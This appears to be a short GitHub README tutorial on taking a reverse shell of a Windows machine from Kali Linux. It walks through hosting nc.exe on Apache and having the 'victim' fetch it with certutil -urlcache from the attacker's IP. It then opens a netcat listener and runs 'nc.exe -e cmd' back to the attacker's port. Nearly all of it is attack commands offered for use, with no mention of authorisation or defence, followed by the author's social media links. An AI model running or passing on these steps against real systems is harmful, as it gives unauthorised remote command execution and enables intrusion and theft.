 # In this tutorial you will learn how to TAKE REVERSE SHELL OF WINDOWS USING KALI LINUX.



STEP 1:  OPEN KALI TERMINAKL 

STEP 2:  locate nc.exe

STEP 3:  copy the nc.exe file to the apache web server and start the web 
server

STEP 4:  sudo systemctl start apache2.service

STEP 5:  now copy the ip of kali machine


## now open this link in victim's machine and run the executable file.


STEP 6:  certutil -urlcache -split -f http://192.168.0.ipaddressofkalilinux/nc.exe nc.exe 

STEP 7:  dir

## on attacker kali linux machine

STEP 8:  nc -nlvp 1234  ( 1234- port number )



## on victim's windows machine

STEP 9:  nc.exe -e cmd 192.168.0.ipaddressofkalilinux 1234








____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________

